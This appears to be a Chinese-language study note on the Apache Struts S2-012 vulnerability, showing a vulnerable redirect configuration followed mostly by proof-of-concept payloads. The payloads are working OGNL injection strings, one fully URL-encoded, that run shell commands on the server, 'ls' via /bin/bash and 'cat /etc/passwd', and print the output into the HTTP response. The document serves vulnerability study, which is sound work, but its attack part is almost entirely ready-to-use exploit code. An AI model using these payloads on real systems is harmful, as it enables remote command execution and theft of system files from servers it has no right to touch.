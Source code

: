 **影响版本：Struts 2.1.0-2.3.13**



~~~~
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
~~~~



### 漏洞搭建

![image-20220331100903429](E:\学习\picture\image-20220331100903429.png)

### poc构建

~~~~
%25%7b%23%61%3d%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%5b%5d%7b%22%2f%62%69%6e%2f%62%61%73%68%22%2c%22%2d%63%22%2c%20%22%6c%73%22%7d%29%29%2e%72%65%64%69%72%65%63%74%45%72%72%6f%72%53%74%72%65%61%6d%28%74%72%75%65%29%2e%73%74%61%72%74%28%29%2c%23%62%3d%23%61%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%63%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%23%62%29%2c%23%64%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%23%63%29%2c%23%65%3d%6e%65%77%20%63%68%61%72%5b%35%30%30%30%30%5d%2c%23%64%2e%72%65%61%64%28%23%65%29%2c%23%66%3d%23%63%6f%6e%74%65%78%74%2e%67%65%74%28%22%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%64%69%73%70%61%74%63%68%65%72%2e%48%74%74%70%53%65%72%76%6c%65%74%52%65%73%70%6f%6e%73%65%22%29%2c%23%66%2e%67%65%74%57%72%69%74%65%72%28%29%2e%70%72%69%6e%74%6c%6e%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%23%65%29%29%2c%23%66%2e%67%65%74%57%72%69%74%65%72%28%29%2e%66%6c%75%73%68%28%29%2c%23%66%2e%67%65%74%57%72%69%74%65%72%28%29%2e%63%6c%6f%73%65%28%29%7d
~~~~

![image-20220331102422871](E:\学习\picture\image-20220331102422871.png)

Poc2：

原始poc：

~~~~
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash","-c", "ls})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
~~~~

**注：利用此漏洞需要进行url编码**

~~~
%25%7B#a=(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B%22cat%22,%20%22/etc/passwd%22%7D)).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new%20java.io.InputStreamReader(#b),#d=new%20java.io.BufferedReader(#c),#e=new%20char%5B50000%5D,#d.read(#e),#f=#context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22),#f.getWriter().println(new%20java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()%7D
~~~
